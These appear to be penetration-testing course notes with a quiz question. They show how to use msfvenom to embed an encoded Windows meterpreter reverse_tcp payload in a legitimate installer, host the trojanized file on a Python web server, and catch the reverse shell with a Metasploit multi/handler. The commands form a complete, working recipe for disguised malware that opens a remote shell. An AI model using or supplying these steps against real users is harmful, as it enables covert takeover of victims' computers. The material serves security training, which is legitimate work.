 
Generate Payload with legitimate installation
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local_ip_address> LPORT=<local_port> -e <encoder_name> -i 10 -f exe -x <legitimate_download> > <dir_&_payload_name> 
```

Host files on python server
```
sudo python -m SimpleHTTPServer 80
```

Create multi handler
```
msfconsole 
use exploit/multi/handler
set payload <payload_type>
set LHOSTS <local_ip_address>
set LPORT <local_port>
exploit
```

## Quiz

Which one of the following Msfvenom options can be used to specify a custom executable file for injection?

```
-x <executable_name>
```